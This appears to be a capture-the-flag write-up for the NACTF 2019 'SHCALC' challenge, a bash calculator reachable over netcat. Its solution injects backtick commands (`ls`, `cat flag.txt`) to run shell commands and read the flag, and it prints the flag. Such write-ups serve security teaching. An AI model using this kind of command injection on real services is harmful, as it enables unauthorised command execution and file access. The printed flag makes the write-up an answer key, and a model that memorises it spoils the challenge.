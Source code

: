 # SHCALC
Points: 200

## Category
General Skills

## Question
>John's written a handy calculator app - in bash! Too bad it's not that secure... 
Connect at nc shell.2019.nactf.com 31214


### Hint
>Heard of injection?

## Solution
We can use backtick (`) to force it to evaluate any commands in it. Use it in the calculator.
```bash
`ls`
`cat flag.txt`
```

### Flag
`nactf{3v4l_1s_3v1l_dCf80yOo}`
